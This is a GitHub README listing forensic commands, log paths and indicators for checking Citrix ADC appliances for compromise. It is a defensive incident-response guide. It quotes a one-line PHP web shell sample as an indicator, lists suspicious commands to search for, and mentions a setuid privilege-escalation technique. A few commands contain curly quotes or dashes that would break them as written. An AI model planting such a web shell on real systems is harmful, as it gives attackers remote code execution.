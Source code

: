 # Citrix ADC Forensics
This repository provides a comprehensive list of commands & artifacts to search for while performing a forensic investigation on Citrix ADC appliances. Contributions are welcome.<br>

# Table Of Contents
- [Automated Script](#automated-script)
- [Manual Forensics](#manual-forensics)
- [Launch the THOR APT Scanner](#launch-the-thor-apt-scanner)
- [References](#references)

# Automated Script
I've made a small shell script which acts as a wrapper around these commands. You can, if you want to automate the process (although I still recommend to double check manually), run the script directly on the ADC appliance.

```
chmod +x citrix-adc-forensics.sh
./citrix-adc-forensics.sh
```

# Manual Forensics

Generally located log files:
```
/var/log/*
```

Failed authentication attempts
```
zcat /var/log/ns.log.*.gz | grep "Authentication is rejected" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; print $0}' | sort | uniq -c | sort -nr
```

SSH logs
```
zcat /var/log/auth.log.*.gz | grep -i "sshd" | grep -i "accepted password" | awk '{$1=$2=$3=$4=$5=$6=$7=$8=""; sub(/^[[:space:]]+/, ""); print "Accepted password for " $0}' | uniq -c | sort -nr
```

Search for suspicious commands
```
curl
hostname
uname
nobody
whoami
id
```

Search for suspicious activity in the http logs
```
/var/log/httpaccess.log
/var/log/httperror.log
```

Look for suspicious files in these directories. Payloads are often placed here.
```
/netscaler/portal/templates
/var/tmp/netscaler/portal/templates
```

Look for processes and child processes
```
ps aux
ps aux | grep nobody
```

Look for cronjobs and also the cron history
```
crontab -l -u nobody
crontab -l -u nsroot
crontab -l -u root

/var/log/cron
```

Look for unauthorized modifications to the crontab file and/or existence of suspicious files in /var/cron/tabs and other locations
```
find / -type f -name “res*” | grep -E ‘res($|\.[a-z]{3})$’
```

Check the file integrity with a md5 sum. Compare them with a 100% secure ADC.
```
cd /netscaler ; for i in “nsppe nsaaad nsconf nsreadfile nsconmsg”; do md5 ${i} ; done
```

Check for APT5 techniques. This should provide no output. If yes, potential compromise.
```
procstat –v $(pgrep –o –i nsppe) | grep “0x10400000 “ | grep “rwx”
```

Check for unusual administrator activity. You can look for the `pb_policy` in the `ns.log` file.
```
Example:

<local0.info> [hostname] pb_policy: Changing pitboss policy from X to Y
<local0.info> [hostname] pb_policy: Changing pitboss policy from Y to X

X & Y are constant values for you system
```

Check for potential PHP WebShells
```
/var/netscaler/logon/LogonPoint/uiareas/[FILE].php


content could be something like this:
<?php http_response_code(201); @eval($_POST[5]);

Look out in the httpaccess.log file for POST requests for the /logon/LogonPoint URL

Commmand1

fgrep -a -e http_response_code -e '$_POST' -r /var/netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command2

fgrep -a -e http_response_code -e '$_POST' -r /var/vpn/ | fgrep -v -e' /var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'

Command3

fgrep -a -e http_response_code -e '$_POST' -r /netscaler/ | fgrep -v -e '/var/netscaler/gui/admin_ui' -e '/netscaler/websocketd' -e '/netscaler/ns_gui/admin_ui'
```

Check for php files excluding folders that have PHP files from them by default
```
find / -type f -name *.php* -not -path "/var/netscaler/gui/admin_ui/*" -not -path "/netscaler/websocketd/*" -not -path "/netscaler/ns_gui/admin_ui/*"
```

Search for *setuid* binaries. This is a setuid Privilege Escalation technique.
```
find / -perm -4000 -user root -exec ls -lc {} \;

normal files which have the setuid bit set

-r-sr-xr-x 1 root wheel 27872 Jul 10 18:24 /netscaler/ping   
-r-sr-xr-x 1 root wheel 32656 Jul 10 18:24 /netscaler/ping6   
-r-sr-xr-x 1 root wheel 31844 Jul 10 18:24 /netscaler/traceroute  
-r-sr-xr-x 1 root wheel 24784 Jul 10 18:24 /netscaler/traceroute6   
-r-sr-xr-- 1 root operator 10584 Jul 10 18:09 /sbin/mksnap_ffs   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/shutdown   
-r-sr-xr-- 2 root operator 15936 Jul 10 18:09 /sbin/poweroff   
-r-sr-xr-x 1 root wheel 34352 Jul 10 18:09 /usr/bin/crontab   
-r-sr-xr-x 1 root wheel 11632 Jul 10 18:09 /usr/bin/lock   
-r-sr-xr-x 1 root wheel 24552 Jul 10 18:09 /usr/bin/login   
-r-sr-xr-x 1 root wheel 9736 Jul 10 18:09 /usr/bin/passwd   
-r-sr-xr-x 1 root wheel 16408 Jul 10 18:09 /usr/bin/su   
-r-sr-xr-x 1 root wheel 74008 Jul 10 18:09 /usr/libexec/ssh-keysign
```

# Launch the THOR APT Scanner
[@Neo23x0](https://github.com/Neo23x0) a.k.a Florian Roth did a pretty good guide on how to use the free version of the THOR APT Scanner to scan the Citrix ADC.<br><br>
Follow the link: https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/


# References
2024-01-26, https://trustedsec.com/blog/netscaler-remote-code-execution-forensics<br>
2024-01-26, https://www.mandiant.com/resources/blog/session-hijacking-citrix-cve-2023-4966<br>
2024-01-26, https://support.citrix.com/article/CTX227560/citrix-adc-logs-collection-guide<br>
2024-01-26, https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-201a<br>
2024-01-26, https://www.nextron-systems.com/2020/01/14/automated-citrix-netscaler-forensic-analysis-with-thor/<br>
2024-01-26, https://media.defense.gov/2022/Dec/13/2003131586/-1/-1/0/CSA-APT5-CITRIXADC-V1.PDF<br>
